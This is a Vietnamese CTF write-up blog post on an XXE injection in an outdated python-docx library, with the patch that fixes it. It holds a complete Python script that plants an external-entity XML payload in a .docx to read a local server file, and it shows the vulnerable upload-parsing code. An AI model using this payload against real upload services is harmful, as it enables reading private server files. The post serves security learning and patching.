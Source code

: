 ```yaml
---
title: "Matesctf final 2 - XXE Injection"
date: 2018-09-08T09:46:55+07:00
author: "Kev"
comments: true
tags: ["ctf", "flask"]
draft: false
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: /images/uploads/ex50-7.png
---
```


## EXPLOIT - [source](/resources/matesctf/ex50.tar) 
<hr>
Mình nhận thấy lỗi này đầu tiên, mình tưởng đây là LFI cơ, vì cho mình đọc nội dung của cái gì đó (trên hình) và download file nữa. {{<emoji lol>}}

```
python-docx is a Python library for creating and updating Microsoft Word (.docx) files.
```

`Docx` là thư viện sử dụng để xử lý file word. Cũng dễ hiểu đây là lỗi vì không cớ gì mà tác giả lại xử lý file word ở đây cả, chức năng upload và hiển thị nội dung file bình thường thì tại sao lại xử lý file docx làm gì. Sau khi tìm hiểu thì mình tìm được CVE của [docx](https://www.cvedetails.com/cve/CVE-2016-5851/). Tìm hiểu thêm thì đã có exploit sẵn, cụ thể mình cần tạo 1 file docx bất kì rồi chạy payload bên dưới, nhúng nội dung XML vào cuối file word đấy:

{{<highlight python>}}
import docx
import zipfile
import tempfile
import os

# define malicious XML
xml_string = '''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE w:document [
  <!ENTITY xxe SYSTEM "file:///home/ctf/ex50/flag" >
]>
<w:document xmlns:o="urn:schemas-microsoft-com:office:office"
xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"
xmlns:v="urn:schemas-microsoft-com:vml"
xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main"
xmlns:w10="urn:schemas-microsoft-com:office:word"
xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing">
<w:body>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t>
Pierre Ernst, Salesforce --[&xxe;]--
</w:t>
</w:r>
</w:p>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t></w:t>
</w:r>
</w:p>
<w:sectPr>
<w:type w:val="nextPage" />
<w:pgSz w:w="12240" w:h="15840" />
<w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134"
w:footer="0" w:bottom="1134" w:gutter="0" />
<w:pgNumType w:fmt="decimal" />
<w:formProt w:val="false" />
<w:textDirection w:val="lrTb" />
</w:sectPr>
</w:body>
</w:document>'''

# source: http://stackoverflow.com/questions/25738523/how-to-update-one-file-inside-zip-file-using-python
def updateZip(zipname, filename, data):
    # generate a temp file
    tmpfd, tmpname = tempfile.mkstemp(dir=os.path.dirname(zipname))
    os.close(tmpfd)

    # create a temp copy of the archive without filename
    with zipfile.ZipFile(zipname, 'r') as zin:
        with zipfile.ZipFile(tmpname, 'w') as zout:
            for item in zin.infolist():
                if item.filename != filename:
                    zout.writestr(item, zin.read(item.filename))

    # replace with the temp archive
    os.remove(zipname)
    os.rename(tmpname, zipname)

    # now add filename with its new data
    with zipfile.ZipFile(zipname, mode='a',
compression=zipfile.ZIP_DEFLATED) as zf:
        zf.writestr(filename, data)

# update legit docx file with malicious XML
updateZip('whatever.docx', 'word/document.xml', xml_string)

# process with python-docx
document = docx.Document('whatever.docx')
print '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
{{</highlight>}}

Tại sao lại nén zip? Vì bản chất file docx là 1 file nén chứa nhiều file xml bên trong. Sau khi chạy payload thì đoạn xml đã được chèn vào file document.xml

{{< figure src="/images/uploads/ex50-8.png">}}

Vậy là upload bằng cách create exercise và view exercise, ta nhận được flag.

{{< figure src="/images/uploads/ex50-9.png">}}

Truy ra nguồn gốc của lỗi này thì do 1 func xử lý exercises đã parse file .docx và lấy nội dung lưu vào database

{{<highlight python>}}
try:
   document = docx.Document(os.path.join(UPLOAD_FOLDER_EX, filename))
   content = '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
except:
   content = "Cannot get content"
Exercises.insert({"name": name, "file_path": file_path,"date":date,"uploader":session['usn'],"content":content})
{{</highlight>}}

Nhờ một thời gian phân tích 1-day nhiều dạng, mình rút ra được cách fix lỗi nhanh nhất là đi tìm bản patch từ nhà cung cấp và đọc xem họ fix như thế nào, như thế sẽ nhanh hơn là tự suy nghĩ cách vá. Các bạn có thể xem bản vá trên [github](https://github.com/python-openxml/python-docx/pull/303/commits/14a44178711cbd860b910f8950f9946addfc5e57). Họ disable XML entity, đây là cách vá hay nhất mà mình biết.

Bước đầu tiên là phải tìm ra được file thư viện nằm ở vị trí nào trên server của mình

{{<highlight bash>}}
$ python -c "import docx; print docx.__file__"
> /usr/local/lib/python2.7/dist-packages/docx/__init__.pyc
{{</highlight>}}

Từ link github trên mình cũng biết là file cần fix là `docx/oxml/__init__.py` . Chỉ cần sửa dòng số 17 thôi là đủ

```
oxml_parser = etree.XMLParser(remove_blank_text=True,resolve_entities=False)
```

{{< figure src="/images/uploads/ex50-10.png">}}

NHƯNG, đời không như mơ đâu các bạn à !!! Chúng ta không có quyền để sửa file `__init__.py`

## SOLUTIONS
<hr>
To be continue ...
